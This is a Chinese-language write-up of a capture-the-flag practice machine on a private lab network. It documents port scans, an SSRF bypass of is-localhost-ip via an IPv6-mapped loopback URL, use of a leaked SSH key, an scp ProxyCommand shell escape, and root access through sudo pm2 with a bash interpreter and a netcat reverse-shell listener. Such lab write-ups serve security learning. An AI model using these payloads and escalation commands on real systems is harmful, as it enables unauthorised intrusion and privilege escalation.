

## 信息收集

```sh
root@kali:~# nmap 192.168.56.108 -p- --min-rate 10000
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-14 04:47 -0400
Nmap scan report for 192.168.56.108
Host is up (0.15s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3006/tcp open  deslogind
MAC Address: 08:00:27:EA:E7:D3 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 53.57 seconds
root@kali:~# nmap 192.168.56.108 -p 22,80,3006 --min-rate 10000 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-14 04:48 -0400
Nmap scan report for 192.168.56.108
Host is up (0.0016s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.66 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: It works! Apache httpd
|_http-server-header: Apache/2.4.66 (Unix)
3006/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:EA:E7:D3 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.64 seconds
```

## 80 端口 分析

```sh
root@kali:~# dirsearch -u http://192.168.56.108/                               
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /root/reports/http_192.168.56.108/__26-05-14_04-56-04.txt

Target: http://192.168.56.108/

[04:56:04] Starting: 
[04:56:06] 403 -  317B  - /.ht_wsr.txt
[04:56:07] 403 -  317B  - /.htaccess.bak1
[04:56:07] 403 -  317B  - /.htaccess.orig
[04:56:07] 403 -  317B  - /.htaccess_orig
[04:56:07] 403 -  317B  - /.htaccess_sc
[04:56:07] 403 -  317B  - /.htaccessBAK
[04:56:07] 403 -  317B  - /.htaccess.sample
[04:56:07] 403 -  317B  - /.htaccess_extra
[04:56:07] 403 -  317B  - /.htaccess.save
[04:56:07] 403 -  317B  - /.htaccessOLD2
[04:56:07] 403 -  317B  - /.htaccessOLD
[04:56:07] 403 -  317B  - /.htm
[04:56:07] 403 -  317B  - /.html
[04:56:07] 403 -  317B  - /.httr-oauth
[04:56:07] 403 -  317B  - /.htpasswd_test
[04:56:07] 403 -  317B  - /.htpasswds
[04:56:29] 200 -    1KB - /cgi-bin/test-cgi
[04:56:29] 200 -  820B  - /cgi-bin/printenv
[04:56:55] 200 -  155B  - /package.json
[04:57:10] 403 -  317B  - /server-status
[04:57:10] 403 -  317B  - /server-status/

Task Completed
```

80端口的默认信息：

```sh
root@kali:~# curl -i "http://192.168.56.108"
HTTP/1.1 200 OK
Date: Thu, 14 May 2026 11:14:15 GMT
Server: Apache/2.4.66 (Unix)
Last-Modified: Tue, 07 Apr 2026 05:54:40 GMT
ETag: "d9-64ed86b4e1def"
Accept-Ranges: bytes
Content-Length: 217
Content-Type: text/html

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<title>It works! Apache httpd</title>
</head>
<body>
<p>Access /flag to establish foothold.</p>
</body>
</html>
# 通过 flag 建立 渗透立足点
```

package.json 的 信息：

```
{
  "name": "ssrf-challenge",
  "version": "1.0.0",
  "main": "app.js",
  "dependencies": {
    "express": "^4.18.2",
    "is-localhost-ip": "2.0.0"
  }
}
```

是一个 ssrf 挑战，网络搜索发现is-localhost-ip 2.0.0 存在 CVE-2025-9960 漏洞。

## 3009 端口分析

```sh
root@kali:~# feroxbuster --url "http://192.168.56.108:3006/" --wordlist /usr/share/wordlists/dirb/common.txt 
                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.108:3006/
 🚩  In-Scope Url          │ 192.168.56.108
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       10l       15w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        3w       67c http://192.168.56.108:3006/
403      GET        1l        4w       61c http://192.168.56.108:3006/flag
400      GET        1l        3w       15c http://192.168.56.108:3006/preview
[####################] - 2s      4614/4614    0s      found:3       errors:0      
[####################] - 1s      4614/4614    4256/s  http://192.168.56.108:3006/                                     
root@kali:~# 
```

is-localhost-ip 2.0.0 存在 CVE-2025-9960 漏洞。

```
http://192.168.56.108:3006/preview?url=http://[::ffff:7f00:1]/
```

获取到了flag：

```
root@kali:~# curl -i http://192.168.56.108:3006/preview?url=http://[::ffff:7f00:1]:3006/flag
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Content-Length: 46
ETag: W/"2e-Jnxs6RFDVkwIYNU5ifAUgY5KL0o"
Date: Thu, 14 May 2026 09:56:17 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"status":"success","flag":"0h6WTnHJggZg451m"}   
```

> 泄露出来了flag，猜测这个可能是密码。还不知道用户名，现在主要目的泄露用户名。

昨天打靶机，就卡在了这一步，思路上卡住了。

问出题人要了一些提示，说 "路径" ，我想了好多，就没有想过`0h6WTnHJggZg451m`，可能是网站上的一个文件，有了这个思路后：

```sh
root@kali:/tmp/123# curl -O http://192.168.56.108/0h6WTnHJggZg451m/
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    444 100    444   0      0  72206      0    
root@kali:/tmp/123# chmod 600 id_ed25519   
# ssh 公钥是可以通过私钥导出来的，第一次遇到
root@kali:/tmp/123# ssh-keygen -y -f id_ed25519 > id_ed25519.pub
Enter passphrase for "id_ed25519": 
```

这里`passphrase` 的密码是`0h6WTnHJggZg451m`。

```sh
root@kali:/tmp/123# cat id_ed25519.pub  
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNoJ+OrztBU///dh239MLIyPjhUdvUj5TvsrO6Ub/6j wiktor@Lara
```

可以从公钥中提取用户名：`wiktor`。

## 初始访问

```sh
root@kali:/tmp/123# ssh wiktor@192.168.56.108 -p 22 -i id_ed25519 
Enter passphrase for key 'id_ed25519': 
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|
```

## `wiktor`信息收集

```sh
wiktor@Local:~$ ls -al
total 16
drwxr-sr-x    3 wiktor   wiktor        4096 Apr  7 13:57 .
drwxr-xr-x    4 root     root          4096 Apr  7 19:54 ..
drwx--S---    2 wiktor   wiktor        4096 Apr  7 13:47 .ssh
-rw-r--r--    1 root     wiktor          44 Apr  7 13:57 user.txt
wiktor@Local:~$ cat user.txt
flag{user-bd62d032486aff767bc47d736c594dcb}
wiktor@Local:~$ sudo -l
Matching Defaults entries for wiktor on Local:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for wiktor:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User wiktor may run the following commands on Local:
    (citrus) NOPASSWD: /usr/bin/scp
```

`sudo -l`: 发现可以以`citrus`用户的身份执行scp命令，`gtfobins`网站搜索：



## 横向移动

```sh
wiktor@Local:~$ touch x
# 这里必须先创建 x 文件
wiktor@Local:~$ sudo -u citrus scp -o 'ProxyCommand=;/bin/sh 0<&2 1>&2' x x:
/home/wiktor $ id
uid=1001(citrus) gid=1001(citrus) groups=1001(citrus)
```

## `citrus`信息收集

```sh
~ $ sudo -l
Matching Defaults entries for citrus on Local:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for citrus:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User citrus may run the following commands on Local:
    (ALL : ALL) NOPASSWD: /usr/local/bin/pm2
```

可以以任何用户的身份运行`pm2`，`pm2 --help`:

```
--interpreter <interpreter>：指定执行程序所用解释器，默认 node
```

发现上面一个很特殊的参数。

## 权限提升

```sh
# 靶机终端
Local:~$ sudo pm2 start 1.sh --interpreter /bin/bash --no-autorestart
[PM2] Applying action restartProcessId on app [1](ids: [ 2 ])
[PM2] [1](2) ✓
[PM2] Process successfully started
┌────┬────────────────────┬──────────┬──────┬───────────┬──────────┬──────────┐
│ id │ name               │ mode     │ ↺    │ status    │ cpu      │ memory   │
├────┼────────────────────┼──────────┼──────┼───────────┼──────────┼──────────┤
│ 2  │ 1                  │ fork     │ 172… │ online    │ 0%       │ 1.6mb    │
│ 0  │ ctf-ssrf           │ fork     │ 0    │ online    │ 0%       │ 68.3mb   │
│ 1  │ pm2-ls             │ fork     │ 0    │ stopped   │ 0%       │ 0b       │
└────┴────────────────────┴──────────┴──────┴───────────┴──────────┴──────────┘
# kali
root@kali:~# nc -lvnp 39666 
listening on [any] 39666 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.108] 46693
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
cat /root/root.txt
flag{root-1b499d262771d39ceb16056de9834025}
```
